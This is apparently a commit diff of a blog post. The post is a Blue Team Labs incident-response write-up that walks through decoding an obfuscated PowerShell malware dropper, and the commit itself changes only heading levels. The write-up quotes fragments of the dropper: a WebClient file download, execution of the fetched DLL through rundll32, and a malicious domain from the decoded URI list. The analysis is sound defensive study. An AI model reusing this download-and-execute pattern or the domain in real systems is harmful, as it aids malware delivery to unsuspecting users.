

Before and after one commit to NeodymiumPhish/NeodymiumPhish.github.io, a Jekyll site: the page built from _posts/2021-3-19-BlueTeamLabs-Malicious-PowerShell-Analysis.md, in a window 1280 px wide. Shown: the part 520-2440 px from the top of the page at 81% size, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Obsidian vault backup: 2021-03-19 09:11:15
Affected files:

_posts/2021-3-19-BlueTeamLabs-Malicious-PowerShell-Analysis.md

````diff
--- a/_posts/2021-3-19-BlueTeamLabs-Malicious-PowerShell-Analysis.md
+++ b/_posts/2021-3-19-BlueTeamLabs-Malicious-PowerShell-Analysis.md
@@ -17,7 +17,7 @@
 1. TOC
 {:toc}
 
-## Background
+# Background
 > Recently the networks of a large company named GothamLegend were compromised after an employee opened a phishing email containing malware. The damage caused was critical and resulted in business-wide disruption. GothamLegend had to reach out to a third-party incident response team to assist with the investigation. You are a member of the IR team - all you have is an encoded Powershell script. Can you decode it and identify what malware is responsible for this attack? Reading Material: https://malware.news/t/deobfuscating-powershell-putting-the-toothpaste-back-in-the-tube/23509
 
 So, it looks like the only real question in all of this is what malware is responsible. Let's take a look at the sample before we go any further.
@@ -44,7 +44,7 @@
 
 While my preference would be to start working to clean this up right off te bat, we already know we have some questions to answer, so let's look back at the challenge and see what it wants us to find.
 
-#### Question 1
+## Question 1
 > What security protocol is being used for the communication with a malicious domain?
 
 OK, so if it's about SSL, TLS, etc, here. Which protocol is the malware using to mask its communications. On line 8, we see this:
@@ -55,7 +55,7 @@
 
 Earlier, I mentioned that PowerShell effectively ignores capitalization for most input. Well, it also uses backtick operators (\`) to allow for creating tabs and new lines in string outputs. If the backtick is used without the new line/tab/space, PowerShell simply ignores the backtick and concatenates the input before and after it instead. In this case, the backticks are used to obfuscate the string, likely as a way of visually breaking up the text so it's less legible during analysis, but it also could get around some basic signature-based analysis. Looking at this line holistically, we see that the variable `mbu` is having the value `sEcuRITYproTocol=Tls12` set/applied, so our answer to the question is TLS 1.2, a fairly secure protocol.
 
-#### Question 2
+## Question 2
 > What directory does the obfuscated PowerShell create? (Starting with \HOME\)
 
 For this question, it's giving us a pretty big hint with the HOME reference. We can already see (line 6) that there's a `createdirectory` value, which gets set to $HOME with a long string following it.
@@ -72,7 +72,7 @@
 
 __Solved!__
 
-#### Question 3
+## Question 3
 > What file is being downloaded (full name)?
 
 Now that we have the directory created by the malware, finding this should be a breeze. Looking at lines 9-11, we see 3 variable declarations, but only one is reused later in the script. Based on the obfuscation, it's possible that the other who are referenced within other obfuscated lines. However, since `$Swrp6tc` shows up in full in line 12, which also references the `$HOME` directory, I'll start there and see what we got.
@@ -92,7 +92,7 @@
 ```
 And there's our file name!
 
-#### Question 4
+## Question 4
 > What is used to execute the downloaded file?
 
 Now, we're in the home stretch. We know the script is using `$Imd4yck` as a reference to the file. In line 16, we see `try{(&(New-Object) System.Net.WebClient.DownloadFile($Bm5pw6z, $Imd1yck)`
@@ -104,12 +104,12 @@
 ```
 It looks like 7 URIs separated by @ symbols. On line 18, we see the script check whether the downloaded file is a valid size. If it is, it continues by executing rundll32, pointing at the newly downloaded DLL. Looking back at the question, we have our answer, `rundll32`.
 
-#### Question 5
+## Question 5
 > What is the domain name of the URI ending in '/6F2gd/'?
 
 Fortunately, we previously ran `$B9fhbyv` through PowerShell and decoded the list of URIs. Looking back at the list we see the last item ends in `6F2gd`, so we just input the domain itself `wm.mcdevelop.net`!
 
-#### Question 6
+## Question 6
 > Based on the analysis of the obfuscated code, what is the name of the malware?
 
 You can fairly easily pull out bits from this script that are unlikely to change, and then run a search to see whether these have been seen before. For this, I took the created directory and ran that across Google to see if anything glaring showed up:
````
